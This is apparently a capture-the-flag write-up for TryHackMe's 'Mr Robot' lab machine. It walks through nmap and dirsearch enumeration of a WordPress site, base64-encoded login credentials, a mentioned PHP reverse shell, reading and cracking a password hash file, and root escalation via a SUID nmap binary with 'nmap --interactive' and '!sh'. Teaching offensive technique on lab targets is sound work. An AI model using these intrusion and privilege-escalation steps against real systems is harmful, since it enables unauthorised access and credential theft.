 ```yaml
---
tagline: mrrobotctf
title: Mr Robot CTF [Writeup]
description: One of the top-tier challenges on TryHackMe, revered as a GOAT in THM Machines.
banner: /blog/mrrobotctfbanner.jpeg/
banner_alt: redrum redrum all we know is redrum
date: '2024-03-3'
---
```


## Foreword

I've come to understand that many people don't grasp my write-ups due to a knowledge gap. Therefore, I'll be explaining every step along the way. Hope you enjoy as I spend a lot of time on these writeups!

## Nmap Scan

- What is Nmap? Nmap is a tool used for checking open ports in a server. This is typically the first step when tackling a machine. Below is the command I will be using.

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.199.158
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 23:06 EST
Nmap scan report for 10.10.199.158
Host is up (0.097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.96 seconds
```

- We now know that there is a closed SSH port, an open HTTP port indicating the presence of a website accessible through a browser, and port 443 running both SSL and HTTP.

## Accessing the website

![Image showing the website](/blog/mrrobotctf/website.png 'Fig.1')

- Damn, for a machine the website is well built. After some poking and prodding, I don't seem to see anything on the homepage. Next step is a Dirsearch.

## Dirsearch

- A Directory Search involves brute-forcing to discover existing directories, helping you understand your attack surface.

```bash:Terminal
──(vipin㉿vipin)-[~]
└─$ dirsearch -u 10.10.199.158 --exclude-status 301,400,403,404,408
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                      
 (_||| _) (/_(_|| (_| )                                                                               
                                                                                                      
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/vipin/reports/_10.10.199.158/_24-03-03_00-09-46.txt

Target: https://10.10.199.158/

[00:09:47] Starting:                                                                                  
[00:11:37] 302 -    0B  - /dashboard  ->  https://10.10.199.158/wp-admin/   
[00:11:37] 302 -    0B  - /dashboard/  ->  https://10.10.199.158/wp-admin/  
[00:11:51] 200 -    0B  - /favicon.ico                                      
[00:12:10] 200 -  504KB - /intro                                            
[00:12:15] 200 -  158B  - /license                                          
[00:12:15] 200 -  158B  - /license.txt                                      
[00:12:18] 302 -    0B  - /login  ->  https://10.10.199.158/wp-login.php    
[00:12:18] 302 -    0B  - /login/  ->  https://10.10.199.158/wp-login.php   
[00:12:55] 200 -   64B  - /readme                                           
[00:12:55] 200 -   64B  - /readme.html                                      
[00:12:58] 200 -   41B  - /robots.txt                                       
[00:13:08] 200 -    0B  - /sitemap                                          
[00:13:08] 200 -    0B  - /sitemap.xml.gz                                   
[00:13:08] 200 -    0B  - /sitemap.xml
[00:13:39] 302 -    0B  - /wp-admin/  ->  https://10.10.199.158/wp-login.php?redirect_to=https%3A%2F%2F10.10.199.158%2Fwp-admin%2F&reauth=1
[00:13:39] 200 -   21B  - /wp-admin/admin-ajax.php
[00:13:39] 500 -    3KB - /wp-admin/setup-config.php
[00:13:40] 200 -    0B  - /wp-config.php                                    
[00:13:40] 200 -    0B  - /wp-content/                                      
[00:13:41] 200 -    0B  - /wp-content/plugins/google-sitemap-generator/sitemap-core.php
[00:13:41] 500 -    0B  - /wp-content/plugins/hello.php                     
[00:13:41] 500 -    0B  - /wp-includes/rss-functions.php                    
[00:13:41] 200 -    1KB - /wp-login                                         
[00:13:41] 200 -    1KB - /wp-login.php
[00:13:41] 200 -    1KB - /wp-login/                                        
[00:13:41] 302 -    0B  - /wp-signup.php  ->  https://10.10.199.158/wp-login.php?action=register
[00:13:41] 200 -    0B  - /wp-cron.php                                      
[00:13:43] 405 -   42B  - /xmlrpc                                           
[00:13:43] 405 -   42B  - /xmlrpc.php
                                                                             
Task Completed
```

## Key 1

- Looking through all the directories, *robots.txt* has the first key for us

![Image showing the robots.txt](/blog/mrrobotctf/robotstxt.png 'Fig.2')

## Key 2

- When we look in */license*, we find the string "ZWxsaW90OkVSMjgtMDY1Mgo=" which seems to be base64

![Image showing the output](/blog/mrrobotctf/base64output.png 'Fig.3')

- Lets login with that in */login*

![Image showing we r in](/blog/mrrobotctf/dashboard.png 'Fig.4')

- And we are in! Lets exploit it.

- I started by using the same reverse shell script I used in [RootMe](https://www.vipinb.xyz/blog/rootme#obtaining-the-user-flag) and editing a random theme file with the php code and I got user access!

```bash:Terminal
daemon@linux:/$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

- Ruh roh, can't go in. Lets crack that password though.

![Image showing cracked password](/blog/mrrobotctf/hashcracked.png 'Fig.5')

```bash:Terminal
daemon@linux:/$ su robot
su robot
su: must be run from a terminal
daemon@linux:/$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz             
```

- And I did get the flag!

## Key 3

- I ran ```find / -user root -perm -4000 -exec ls -ldb {} \;``` to see exploitable SUID Binaries and nmap was one. Using GTFOBINS I found that you can run ```nmap --interactive``` and say ```!sh``` to get a shell. 

```bash:Terminal
robot@linux:/$ nmap --interactive               
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv  tmp  var
boot  etc  initrd.img  lib64  media       opt  root  sbin  sys  usr  vmlinuz
# cd root
cd root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

![My Tryhackme badge yuh](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)